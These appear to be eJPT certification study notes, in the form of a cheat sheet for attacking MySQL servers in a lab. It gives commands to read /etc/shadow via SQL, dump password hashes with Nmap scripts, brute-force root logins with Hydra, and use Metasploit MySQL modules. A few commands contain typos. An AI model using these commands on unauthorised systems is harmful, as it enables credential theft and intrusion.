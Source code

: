 ## MySQL - p3306

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

This command is used to connect to a remote database as a specific user.
```
mysql -h 10.10.10.1 -u root
```
```
show databases;
```
```
use database;
```
SQL can be used to access files that reside on the target machine.
```
mysql select load_file(“/etc/shadow”);
```

### Nmap

Check if root access with an empty password is enabled.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-empty-password
```
Check for service details.
```
nmap 10.10.10.1 -sV -p3306 —-cript=mysql-info
```
Check for all enabled users through the root user.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-users --script-args=“mysqlusers=‘root’, mysqlpass=‘’ ”
```
Check for all databases.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-databases --script-args=“mysqlusers=‘root’, mysqlpass=‘’ ”
```
Check for database configuration variables.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-variables --script-args=“mysqlusers=‘root’, mysqlpass=‘’ ”
```
A standard database benchmark to identify vulnerabilities.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-audit --script-args=“ mysql-audit.username=‘root’, mysqlpass=‘’, mysql-audit.password=‘’, mysql-audit.filename=‘/usr/share/nmap/nselib/data/mysql-cis.audit’ ”
```
Perform a dump of all usernames and passwords.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-dump-hashes --script-args=“username=‘root’, password=‘’ ”
```
Perform a SQL query.
```
nmap 10.10.10.1 -sV -p3306 --script=mysql-query --script-args=“query=‘select count(*) from books.authors;’, username=‘root’, password=‘’ ”
```

### Hydra
```
hydra -l root -P passwordfile.txt 10.10.10.1 mysql
```

### METASPLOIT
```
auxiliary/admin/mysql/mysql_enum
auxiliary/admin/mysql/mysql_sql
auxiliary/scanner/mysql/mysql_file_enum
auxiliary/scanner/mysql/mysql_hashdump
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/mysql/mysql_schemadump
auxiliary/scanner/mysql/mysql_version
auxiliary/scanner/mysql/mysql_writable_dirs
```
